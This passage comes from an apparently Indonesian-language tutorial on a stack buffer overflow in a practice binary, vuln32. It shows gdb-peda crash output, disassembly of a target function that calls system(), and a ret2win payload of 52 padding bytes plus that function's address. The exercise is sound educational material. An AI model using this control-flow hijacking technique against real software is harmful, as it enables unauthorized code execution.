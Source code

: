```bash
Invalid $PC address: 0x42424242
[------------------------------------stack-------------------------------------]
0000| 0xffffd650 --> 0xf7fb5000 --> 0x1d9d6c 
0004| 0xffffd654 --> 0xf7fb5000 --> 0x1d9d6c 
0008| 0xffffd658 --> 0x0 
0012| 0xffffd65c --> 0xf7df5b41 (<__libc_start_main+241>: add    esp,0x10)
0016| 0xffffd660 --> 0x1 
0020| 0xffffd664 --> 0xffffd6f4 --> 0xffffd81d ("/root/You_Tube/Stack_Buffer_Overflow/1/vuln32")
0024| 0xffffd668 --> 0xffffd6fc --> 0xffffd84b ("SHELL=/bin/bash")
0028| 0xffffd66c --> 0xffffd684 --> 0x0 
[------------------------------------------------------------------------------]
Legend: code, data, rodata, value
Stopped reason: SIGSEGV
0x42424242 in ?? ()
gdb-peda$
```

terlihat diatas EIP terisi dengan 0x42424242

sehingga kita bisa melakukan manipulasi arah next instruksinya ke 0x42424242
tantangan pada program ini adalah apabila kita bisa menjalankan fungsi hackrich.
supaya bisa menjalankannya kita perlu mengarahkan isi EIP ini ke alamat fungsi hackrich. 

untuk mencari alamat dari fungsi hackrich dengan cara sebagai berikut

```bash
gdb-peda$ pdisass hackrich
Dump of assembler code for function hackrich:
   0x08049182 <+0>: push   ebp
   0x08049183 <+1>: mov    ebp,esp
   0x08049185 <+3>: push   ebx
   0x08049186 <+4>: sub    esp,0x4
   0x08049189 <+7>: call   0x80490c0 <__x86.get_pc_thunk.bx>
   0x0804918e <+12>: add    ebx,0x2e72
   0x08049194 <+18>: sub    esp,0xc
   0x08049197 <+21>: lea    eax,[ebx-0x1ff8]
   0x0804919d <+27>: push   eax
   0x0804919e <+28>: call   0x8049040 <puts@plt>
   0x080491a3 <+33>: add    esp,0x10
   0x080491a6 <+36>: sub    esp,0xc
   0x080491a9 <+39>: lea    eax,[ebx-0x1feb]
   0x080491af <+45>: push   eax
   0x080491b0 <+46>: call   0x8049050 <system@plt>
   0x080491b5 <+51>: add    esp,0x10
   0x080491b8 <+54>: nop
   0x080491b9 <+55>: mov    ebx,DWORD PTR [ebp-0x4]
   0x080491bc <+58>: leave  
   0x080491bd <+59>: ret    
End of assembler dump.
```

didapatkan alamat dari hackrich 0x08049182

kemudian dibuat payload 'A' sebanyak 52 + 0x08049182 
karena linux ini adalah little endian maka menulisnya terbalik tetepi menggunakan pwn tools tidak perlu dibalik

